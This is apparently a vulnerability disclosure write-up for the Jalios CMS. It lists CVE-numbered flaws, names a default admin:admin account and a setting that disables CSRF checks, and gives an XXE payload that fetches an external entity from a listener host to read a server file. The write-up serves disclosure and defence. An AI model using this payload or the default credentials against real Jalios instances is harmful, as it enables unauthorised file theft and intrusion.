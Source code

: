 # Presentation of the Admin Panel

The application has a default admin account: `admin:admin`.  
Here is the visual of the admin panel:  

![Admin panel](./img/2.png)

On the page */admin/properties/editor/propEditor.jsp*, it is possible to access the "Advanced Editing" mode and directly modify certain properties of the CMS:  

![alt text](./img/3.png)

The property `channel.security.csrf.enabled` is particularly interesting because it allows disabling CSRF token verification, thus opening the door to new exploitation techniques. We will see later that disabling this parameter is common in Jalios instances, so this scenario is not purely theoretical.

# tl;dr of vulnerabilities founds

Here are the vulnerabilities we have discovered *(some of which require incorrect configuration)* :
- XSS (reflected/stored/...) - **CVE-2025-25035**
- Open Redirect - **CVE-2025-25034**
- Cross-Site Request Forgery (CSRF) Account Takeover - **CVE-2025-25038** *(misconfiguration required)*
- SQL Injection - **CVE-2025-0942**
- An XXE injection - **CVE-2025-25036**
- Remote Code Execution - **CVE-2025-25037**
- Some information disclosures.

We will present the unique vulnerabilities first, then focus on the XSS and OpenRedirects, which are present in many places.

# XML External Entity Injection (XXE)

The first vulnerability is found in the file `/admin/importManager.jsp`. It is possible to upload an XML file and trigger an XXE attack. By importing an external entity, it is possible to make requests from the server (SSRF) or exfiltrate files. External entities are enabled in the class `jalios.util.XmlUtil.class`.

Without restrictions on loading external entities, it is possible to load one from a malicious file and exfiltrate the content. It is also possible to perform a blind-XXE with the *.dtd* files already present on the server.  

*Reading the file /tmp/poc.txt*
```xml
<?xml version="1.0" ?> 
<!DOCTYPE message [ 
    <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/payload"> 
    %ext; 
]>
```
